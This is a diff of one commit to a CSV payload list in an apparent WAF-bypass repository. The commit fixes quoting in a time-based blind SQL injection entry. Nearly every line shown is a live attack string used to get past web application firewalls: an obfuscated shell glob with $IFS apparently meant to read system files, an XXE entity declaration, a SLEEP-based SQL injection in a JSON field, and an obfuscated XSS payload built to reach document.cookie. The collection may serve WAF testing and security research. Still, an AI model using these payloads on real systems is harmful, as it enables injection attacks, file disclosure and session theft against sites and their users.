

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -460,3 +460,3 @@ https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/
 https://twitter.com/gdprAI/status/1653160069109026816,"<!DOCTYPE foo [<!ENTITY % a ""&#x3c;&#x21; ... omitted ...", xxe
-https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU""},sqli
+https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU},sqli
 https://twitter.com/ShawarkOFFICIAL/status/1656050953660043265,"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">,xss
```
